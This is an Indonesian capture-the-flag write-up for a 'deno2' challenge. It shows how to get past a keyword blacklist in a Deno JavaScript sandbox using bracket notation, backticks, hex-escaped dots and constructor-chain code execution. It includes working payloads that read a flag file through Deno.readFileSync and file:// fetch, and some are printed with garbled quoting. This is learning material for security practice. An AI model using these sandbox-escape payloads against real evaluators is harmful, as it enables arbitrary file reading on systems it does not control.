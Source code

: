 # DENO2

Alat

- Terminal
- Node
- Sublime text

Untuk menyelesaikan deno2 kita harus mencari tahu cara untuk mem-bypass const BLACK_LIST. Untungnya kita diberikan dua petunjuk yang memberitahu kita bahwa ada cara lain untuk memanggil fungsi/atribut/metode dari objek selain menggunakan titik, yaitu dengan menggunakan metode 

```jsx
object[`function`]
```

Disini kita sudah tahu cara mem-bypass pemanggilan fungsi tapi bagaimana dengan pemanggilan deno?.

Disitulah Deno masuk daftar hitam, dengan sedikit tekad dan pengetahuan yang minim saya bertanya kepada Mr. Google. Setelah berselancar di Google saya menemukan sebuah artikel yang menyatakan bahwa kita dapat memanggil objek dengan "ini" terlebih dahulu, misalnya this.deno.run().

kemudian dengan petunjuk kedua yang diberikan, saya menggunakan teknik fungsi anonim agar lebih mudah (menurut saya). Fungsi anonim bisa dibuat dengan menulis 

```jsx
({})["constructor"]["constructor"]("Code")()
```

() pada akhir code untuk memanggil fungsi anonim.

Dalam tantangan ini, kita tidak bisa menggunakan "" dan '', jadi kita menggantinya dengan (backtick). Untuk payload pertama saya buat seperti ini :
```jsx
({})[constructor][constructor](this[\\De\ + \\no\][\\run\]({cmd: [\\ls\]}) )()
```

code di atask ternyata tidak berhasil, karena saya yakin ini harus berhasil. Saya mencoba kode di deno1 dan berhasil. Hmmm kemudian saya cek file dockernya ternyata deno.run tidak boleh, jadi saya ganti dengan membaca langsung filenya seperti yang saya tulis di deno1 yaitu dengan deno.readfilesync(). kodenya akan seperti ini:

```javascript
({})[`constructor`][`constructor`](`decoder = new TextDecoder(\`utf-8\`);data = this[\`De\`+\`no\`][\`readFileSync\`](\`flag\x2etxt\`);return decoder[\`decode\`](data);`)()
```

catatan:\x2e untuk menggantikan . (dot)

Code di atas dapat berhasil. karena menurut saya jawaban saya terlalu panjang, saya bertanya kepada penulis, yang saya tanyakan seperti ini "apakah ada cara lain untuk mendapatkan flag", dan ternyata ada cara lain yaitu dengan menggunakan

```jsx
[][`constructor`][`constructor`](`return fetch(\`file:///ctf/flag\x2etxt\`)\x2ethen((a)=>a\x2etext()\x2ethen((b)=>console\x2elog(b)))`)()
```

dan

```jsx
[][constructor][constructor](return fetch(\\file:///ctf/flag\x2etxt\)\\x2ethen((a)=>a\\x2etext()\\x2ethen((b )=>console\\x2elog(b))))()
```

terima kasih kepada mas Dimas yang telah membantu saya.

### Referensi yang mungkin bisa membantu

[# HackTheBox "Business CTF" - discordvm - Node.js Sandbox Escape](https://www.youtube.com/watch?v=pzh6--wIp24&t=534s)

[Escaping nodejs vm](http://Gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af)
